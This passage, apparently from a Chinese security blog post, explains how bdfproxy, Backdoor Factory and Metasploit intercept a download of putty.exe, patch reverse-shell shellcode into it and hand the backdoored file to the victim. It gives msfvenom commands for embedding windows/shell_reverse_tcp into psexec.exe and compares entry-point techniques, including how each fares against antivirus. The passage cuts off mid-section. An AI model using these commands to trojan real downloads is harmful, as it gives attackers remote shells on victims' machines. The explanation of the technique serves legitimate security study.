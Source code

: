 目标设备->WooyunWifi路由器->安全测试设备（Kali+bdfproxy）->网站

那么发生了什么事情呢？

目标设备请求putty.exe->WooyunWifi路由器转发->安全测试设备（bdfproxy）拦截到请求->bdfproxy根据配置请求BDF挂后门->BDF请求Metasploit生成后门SHELLCODE->把SHELLCODE填进CAVE中（一会儿解释）->响应发回目标设备->目标设备下载完无异常于是执行->执行SHELLCODE->反弹SHELL给Metasploit

大家最关心的肯定是BDF挂后门时的CAVE是什么意思，下面以Joshua Pitts（BDF作者，He is awesome！！！）的PPT来翻译讲解BDF的原理，给出PPT原地址，翻译时格式有改动内容有删改：

http://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory

Metasploit挂后门的方式：

```
msfvenom –p windows/shell_reverse_tcp –x psexec.exe … 这是覆盖掉原来程序入口点的方式

msfvenom –p windows/shell_reverse_tcp –x psexec.exe –k … 这是分配并创建一个新的线程然后跳转回原始程序入口点的方式（Keep 保留方式）

```

覆盖掉程序入口点之前：

[![](http://static.wooyun.org//drops/20150811/2015081103412210861.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/before_overwrite.png)

覆盖掉程序入口点之后：

[![](http://static.wooyun.org//drops/20150811/2015081103412273230.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/after.png)

覆盖程序入口点方式的好处和弊端：

```
好处：攻击者可以拿到SHELL
好处：EXE文件大小没有改变
坏处：程序无法继续执行（崩掉了）

```

创建新线程但是保留程序入口点方法：

[![](http://static.wooyun.org//drops/20150811/2015081103412269855.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/after_keep.png)

可以明显地看到新增了一个RWE的code section

[![](http://static.wooyun.org//drops/20150811/2015081103412223484.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/before_keep.png)

创建新线程但是保留程序入口点方法的好处和弊端：

```
好处：拿到SHELL并且程序可以继续执行
坏处：容易被杀毒软件侦测到
坏处：文件大小增加了

```

CTP方式挂后门：
